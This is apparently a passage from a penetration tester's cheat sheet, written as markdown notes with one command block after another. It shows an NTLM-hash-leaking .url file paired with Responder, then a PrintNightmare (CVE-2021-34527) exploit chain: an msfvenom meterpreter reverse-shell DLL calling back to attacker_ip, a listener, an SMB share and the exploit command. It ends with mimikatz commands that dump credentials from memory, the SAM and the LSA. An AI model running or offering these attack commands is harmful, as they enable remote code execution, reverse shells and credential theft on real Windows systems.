 ```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\x.x.x.x\%USERNAME%.icon
IconIndex=1
```

Save As -> All Files -> @something.url

responder
```
responder.py -I tun0 -rdw
```

### printnightmare (CVE-2021-34527)

[cube0x0 RCE Github link](https://github.com/cube0x0/CVE-2021-1675)

[calebstewart LPE Github link](https://github.com/calebstewart/CVE-2021-1675)

checking if vuln
```
rpcdump.py @ip | egrep 'MS-RPRN|MS-PAR'
```

creating payload msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=attacker_ip LPORT=5555 -f dll > shell.dll
```

opening a meterpreter listener
```
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST attacker_ip
set LPORT 5555
run
```

opening a samba share
```
smbserver.py share `pwd` -smb2support
```

running the exploit
```
./CVE-2021-34527.py domain.name/username:password@ip '\\attacker_ip\share\shell.dll`
```

### mimikatz

[mimikatz Github link](https://github.com/gentilkiwi/mimikatz)

Dump credentials stored in memory

mimikatz
```
privilege::debug
sekurlsa::logonpasswords            #dump ntlm hash
lsadump::sam                        #dump sam
lsadump::lsa /patch                 #dump lsa
```
